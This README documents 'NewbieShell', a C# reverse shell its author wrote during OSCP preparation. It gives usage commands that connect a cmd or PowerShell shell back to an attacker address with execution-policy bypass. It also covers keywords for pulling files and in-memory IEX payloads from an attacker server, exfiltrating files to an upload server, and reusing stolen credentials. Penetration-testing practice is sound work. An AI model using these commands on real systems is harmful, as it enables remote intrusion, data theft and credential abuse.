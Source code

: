# NewbieShell
## Reverse shell for beginners

When preparing for the OSCP certificate, I mostly used Netcat and a msfvenom payload for a connection. The most annoying thing for me was that when downloading and uploading software, it required a very long text. Since I like to program in C#, I thought I would just simplify this for myself. Through this idea the NewbieShell was born. The goal was to execute code with short keywords, like download. This saves the attacker time and nerves. 
Furthermore, as the name "NewbieShell" suggests, this software is also intended for beginners. 

## Usage

There are two ways to use NewbieShell. The simple method in the Console.

```
NewbieShell.exe
```

In this method the program asks for an IP address, port and whether to use cmd.exe or powershell.exe as return.

The second option is to use NewbieShell like Netcat.

```
Newbieshell.exe <ip> <port> <cmd.exe or powershell.exe>
```

Example: NewbieShell.exe 192.168.0.1 80 cmd.exe

If Powershell.exe is executed, then NewbieShell executes the command "-ep bypass" in the background. This sets the ExecutionPolicy to bypass.

### NewbieShell Console
All Windows commands can be inserted normally. For example, if you want to download something from a web server, then you have the possibility to execute a download with so-called keywords. The keyword for download is #D

After entering the keyword, a query comes from the system about which file it is and so on. Further information can be found below in the documentation.

#### Temp Folder

The first time NewbieShell connects, a folder is set up under the path C:\temp. This folder is where all data is stored/downloaded

#### Download - Keyword #D

As already described above, the keyword #D is the download function. NewbieShell specifies that a web server should be running on the attacker's side. The "http.server" based on Python3, is available by default on Kali Linux. With this command a web server can be executed on the attacker machine.

```
python3 -m http.server 80
```

In the next step, the software will ask for the file that should be downloaded.
Because NewbieShell knows the IP address of the attacker. The query for the attacker IP address is omitted.

If the file has been downloaded, it can be found in the C:\temp directory.

#### IEX - Keyword #IEX

The IEX command is often used to execute malware. For example, a .ps1 file is executed without saving the file to the hard disk.
As with the download function, a web server is required. This should be executed on the attacker's computer. 

#### Upload - Keyword #U

I often had the case that I wanted to upload files such as Sharphound files to my attacker PC. I did not always want to use an SMB share. I have thought about whether this is easier. Unfortunately, the upload - function does not work with the standard Python3 "http.server", because this web server does not accept post - function. But there is another webserver which can do this. This can be easily installed with this command on the attacker side.

```
pip3 install uploadserver
```

After the web server or upload server is installed, then it can be run on the attacker machine.

```
python3 - m uploadserver 80
```

For info NewbieShell accurately indicates that the upload server should be installed and running.

NewbieShell requests the full path of the file. After a successful upload, the file should be discoverable on the attacker's site.

#### Impersonation - Keyword #I

If you have found any credentials during the attack, you have the possibility to generate a new shell with these credentials using NewbieShell.
The system will ask for the username, password and domain. If there is no domain, this line can be left blank. 


